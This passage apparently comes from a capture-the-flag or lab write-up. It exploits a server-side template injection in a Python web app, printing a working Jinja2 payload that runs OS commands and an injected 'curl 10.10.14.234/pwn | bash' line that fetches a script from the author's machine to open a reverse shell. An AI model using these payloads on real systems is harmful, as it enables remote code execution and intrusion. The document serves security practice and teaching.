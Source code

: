 ![Untitled](images/Untitled%2044.png)

So… we can convert SSTI to RCE using this payload: `{{config.__class__.__init__.__globals__['os'].popen('<your code>').read()}}`

Let’s try to deploy a Rev Shell using this! As we know that the target system uses python, let’s try to execute a python script. To make it easier, I have created a file in my computer called pwn and shared it via http.server:

![Untitled](images/Untitled%2045.png)

If we execute the command `curl 10.10.14.234/pwn | bash` in the target machine, it should read the pwn file and send it to the bash to interpret it and establish a connection with my machine. Let’s see if it works:

`{{config.__class__.__init__.__globals__['os'].popen('curl 10.10.14.234/pwn | bash').read()}}`

![Untitled](images/Untitled%2046.png)
